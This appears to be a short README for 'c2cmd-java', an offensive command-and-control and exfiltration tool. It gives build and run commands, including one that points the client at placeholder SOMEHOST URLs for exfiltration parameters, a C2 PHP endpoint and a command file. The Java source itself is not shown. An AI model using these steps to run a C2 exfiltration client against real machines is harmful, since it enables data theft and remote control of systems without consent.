 # c2cmd-java

```Your Urls have to be added to the Java source code.```

To create the jar and run within its own directory:

```
javac c2cmd.java
jar -cvmf exfil.mf exfil.jar *
```
To run it (with you url changes compiled above) 
```
java -jar exfil.jar
```
or run it like
```
java -jar exfil.jar https://SOMEHOST/exfilparams https://SHOMEHOST/exploit/c2/2c.php?get=1 https://SOMEHOST/exploit/c2/c2.txt 2
```
